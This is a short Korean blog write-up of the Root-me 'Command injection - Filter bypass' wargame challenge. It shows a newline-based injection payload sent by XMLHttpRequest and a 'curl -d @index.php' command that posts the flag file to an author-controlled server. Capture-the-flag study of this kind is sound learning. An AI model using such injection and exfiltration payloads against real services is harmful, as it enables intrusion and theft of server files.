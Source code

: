 ```yaml
---
title: Root-me Command injection Filter bypass (풀이 봄)
date: 2022-06-20-20:51  +0900
categories: [Wargame,Root-me]
tags: [command injection, new line, curl, curl post, post a file with curl, 풀이 봄]
---
```


## Command injection - Filter bypass (풀이 봄)
<hr style="border-top: 1px solid;"><br>

```
30 Points
Ping service v2
Author
sambecks,  20 September 2017

Statement
Find a vulnerability in this service and exploit it. Some protections were added.

The flag is on the index.php file.
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

풀이를 보니 new line을 이용하여 풀 수 있다고 한다. 

chrome 개발자 도구를 이용해 console에서 보내주었다.

<br>

```
c = new XMLHttpRequest();
c.open('POST','http://challenge01.root-me.org/web-serveur/ch53/index.php', true);
c.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
c.send('ip=1.1.1.1;%0a$(curl {my_server})');
```

<br>

그러면 서버로 요청이 들어온 걸 알 수 있다.

서버는 드림핵 request bin을 이용하였고, post로 파일을 보내는 방법은 아래 주소에서 확인할 수 있다.
: <a href="https://reqbin.com/req/c-dot4w5a2/curl-post-file" target="_blank">reqbin.com/req/c-dot4w5a2/curl-post-file</a>

즉, POST로 파일을 전송할 때 ```curl -d @index.php {server}```로 해주면 된다는 것이다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
